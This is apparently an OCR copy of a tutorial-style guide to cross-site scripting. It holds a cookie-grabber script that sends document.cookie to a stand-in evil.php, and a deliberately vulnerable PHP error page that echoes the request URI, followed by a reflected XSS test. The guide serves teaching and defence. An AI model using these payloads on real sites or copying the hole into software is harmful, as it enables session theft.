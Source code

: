   - A source outside the application stores dangerous data in a database
    or other data store, and the dangerous data is subsequently read
    back into the application as trusted data and included in dynamic
    content.

### Attack Examples

**Example 1: Cookie Grabber**

If the application doesn't validate the input data, the attacker can
easily steal a cookie from an authenticated user. All the attacker has
to do is to place the following code in any posted input(ie: message
boards, private messages, user profiles):

    <SCRIPT type="text/javascript">
    var adr = '../evil.php?cakemonster=' + escape(document.cookie);
    </SCRIPT>

The above code will pass an escaped content of the cookie (according to
RFC content must be escaped before sending it via HTTP protocol with GET
method) to the evil.php script in "cakemonster" variable. The attacker
then checks the results of his evil.php script (a cookie grabber script
will usually write the cookie to a file) and use it.

### Error Page Example

Let's assume that we have an error page, which is handling requests for
a non existing pages, a classic 404 error page. We may use the code
below as an example to inform user about what specific page is missing:

    <html>
    <body>

    <? php
    print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
    ?>

    </body>
    </html>

Let's see how it works:

    http://testsite.test/file_which_not_exist

In response we get:

    Not found: /file_which_not_exist

Now we will try to force the error page to include our code:

    http://testsite.test/<script>alert("TEST");</script>

The result is:

    Not found: / (but with JavaScript code <script>alert("TEST");</script>)

We have successfully injected the code, our XSS\! What does it mean? For
example, that we may use this flaw to try to steal a user's session
cookie.
